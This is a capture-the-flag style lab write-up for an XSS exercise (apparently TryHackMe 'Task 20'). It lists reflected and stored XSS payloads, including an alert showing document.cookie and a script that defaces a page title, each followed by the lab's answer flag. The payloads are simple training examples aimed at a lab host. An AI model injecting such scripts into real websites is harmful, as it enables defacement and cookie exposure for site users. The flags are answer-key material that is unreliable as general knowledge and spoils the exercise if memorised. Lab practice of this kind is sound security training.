

# Task 20

- [Task 20](#task-20)
  - [Navigate to http://10.10.172.84/ in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".](#navigate-to-http101017284-in-your-browser-and-click-on-the-reflected-xss-tab-on-the-navbar-craft-a-reflected-xss-payload-that-will-cause-a-popup-saying-hello)
    - [Answer](#answer)
  - [On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.](#on-the-same-reflective-page-craft-a-reflected-xss-payload-that-will-cause-a-popup-with-your-machines-ip-address)
    - [Answer](#answer-1)
  - [Now navigate to http://10.10.172.84/ in your browser and click on the "Stored XSS" tab on the navbar; make an account. Then add a comment and see if you can insert some of your own HTML.](#now-navigate-to-http101017284-in-your-browser-and-click-on-the-stored-xss-tab-on-the-navbar-make-an-account-then-add-a-comment-and-see-if-you-can-insert-some-of-your-own-html)
    - [Answer](#answer-2)
  - [On the same page, create an alert popup box appear on the page with your document cookies.](#on-the-same-page-create-an-alert-popup-box-appear-on-the-page-with-your-document-cookies)
    - [Answer](#answer-3)
  - [Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.](#change-xss-playground-to-i-am-a-hacker-by-adding-a-comment-and-using-javascript)
    - [Answer](#answer-4)

## Navigate to http://10.10.172.84/ in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".

On input search

```javascript
<script>alert(“Hello”)</script>
```

### Answer

ThereIsMoreToXSSThanYouThink

## On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.

```javascript
<script>alert(window.location.hostname)</script>
```

### Answer

ReflectiveXss4TheWin

## Now navigate to http://10.10.172.84/ in your browser and click on the "Stored XSS" tab on the navbar; make an account. Then add a comment and see if you can insert some of your own HTML.

```html
<h1>this is an HTML tag </h1>
```

### Answer

HTML_T4gs

## On the same page, create an alert popup box appear on the page with your document cookies.

```javascript
<script>alert(document.cookie)</script>
```

### Answer

W3LL_D0N3_LVL2

## Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.

Find the ID of the XSS playground element

  

```javascript
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```

### Answer

websites_can_be_easily_defaced_with_xss